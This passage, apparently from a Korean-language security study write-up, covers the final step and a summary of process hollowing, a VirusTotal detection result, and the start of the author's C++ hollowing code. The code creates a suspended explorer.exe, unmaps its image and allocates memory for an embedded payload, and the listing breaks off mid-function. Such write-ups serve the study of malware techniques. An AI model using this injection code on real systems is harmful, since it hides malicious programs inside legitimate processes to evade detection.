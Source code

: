 ![process_hollowing11](https://github.com/user-attachments/assets/d2695498-3cab-4993-8754-bf19d1310143)

[사진 22] Process Hollowing Step 10

![code3-2](https://github.com/user-attachments/assets/843278b8-1037-477a-bac9-a2f18285d4b9)

[사진 23] Process Hollowing Step 10 (code)

- resume()을 호출하여 정지 상태였던 프로세스를 다시 실행한다.
- 하지만 이 시점부터 실행되는 코드는 원래 explorer.exe가 아니라 악성 코드가 됨.

## Process Hollowing 과정 요약

1. 정상 프로세스(explorer.exe) 실행
2. 기존 PE 이미지를 언맵하여 제거
3. 악성 코드 주입을 위한 메모리 할당
4. PE 파일 로드 및 헤더 & 섹션 데이터 복사
5. 재배치(Relocation) 적용
6. Entry Point 수정
7. 프로세스 실행 재개 → 정상적인 프로세스로 위장하여 실행

![hollow_test_virustotal](https://github.com/user-attachments/assets/d0eaebf5-9319-4066-8612-48101f02d7dd)

[사진 24] 사용된 hollow_test.exe를 VirusTotal에 업로드한 결과 23/71에서 악성코드로 탐지함.

## **사용된 Process  Hollowing 코드**

```cpp
#include <Windows.h>

#include "process_.h"
#include "injector.h"

#include "pe.h"

WCHAR wszProcessPath[] = L"explorer.exe";

unsigned char malwareTarget[2203648] = { // explorer.exe의 바이너리 값 }
int WINAPI WinMain(
	HINSTANCE hInstance,
	HINSTANCE hPrevInstance,
	PSTR lpCmdLine,
	INT nCmdShow
)
{
	process normalProcess;

	if (normalProcess.create(wszProcessPath, true, false))
	{
		ULONG_PTR imagebase = normalProcess.imagebase();

		if (normalProcess.unmap(imagebase, false)) // Step3
		{
			injector injector(normalProcess.handle());

			pe malwr(malwareTarget, 2203648);
			ULONG malwr_size = malwr.imageSize();

			LONG_PTR relativeOffset = 0;

			ULONG_PTR malwrAddr = injector.alloc(malwr_size, imagebase, false); // Step4: target process 메모리 할당

			if (malwrAddr != 0)
```